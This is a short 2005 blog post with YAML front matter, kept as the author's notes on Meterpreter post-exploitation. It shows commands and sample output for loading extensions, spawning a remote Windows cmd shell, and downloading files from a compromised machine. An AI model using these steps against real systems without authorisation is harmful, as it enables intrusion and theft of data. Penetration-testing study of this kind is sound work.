 ```yaml
---
id: 9
title: Post-Exploitation w/ Meterpreter
date: 2005-11-03T14:41:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=9
permalink: /?p=9
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2005/11/post-exploitation-w-meterpreter_03.html
categories:
  - Uncategorized
tags:
  - metasploit
---
```

Since I seem to forgot how to use Meterpreter everytime. Figured I would just document some basic functions of it.

More information can be found at <http://www.metasploit.org>

After the box is exploited and you have Meterpreter on the payload you can begin to use.

There are many extenstions that can be used. Different extentions provide different uses.

1. Fs
  
Provides interaction with the filesystem on the remote machine.
  
2. Net
  
Provides interaction with the network stack on the remote machine.
  
3. Process
  
Provides interaction with processes on the remote machine.
  
4. Sys
  
Provides interaction with the environment on the remote machine.

Here is how you load them.
  
 **use -m Process**
  
loadlib: Loading library from ’ext950591.dll’ on the remote machine.

There is a lot you can do but I&#8217;m just going to show the what I use the most.
  
Below will get you a cmd prompt on machine.(assuming its windows)

**meterpreter> execute -f cmd -c**
  
execute: Executing ’cmd’&#8230;

execute: success, process id is 3516.
  
execute: allocated channel 1 for new process.

You now have to interact with the assigned channel. Then you got cmd!

**meterpreter> interact 1**
  
interact: Switching to interactive console on 1&#8230;
  
meterpreter>
  
interact: Started interactive channel 1.
  
Microsoft Windows XP [Version 5.1.2600]
  
(C) Copyright 1985-2001 Microsoft Corp.
  
C:\WINDOWS>
  
Caught Ctrl-C, close interactive session? [y/N] y

With the Fs extentsion you can download and upload files.

**meterpreter>use -m Fs**
  
**meterpreter>download file location**

And thats pretty much what I use the most. Maybe later I will write an advanced section.
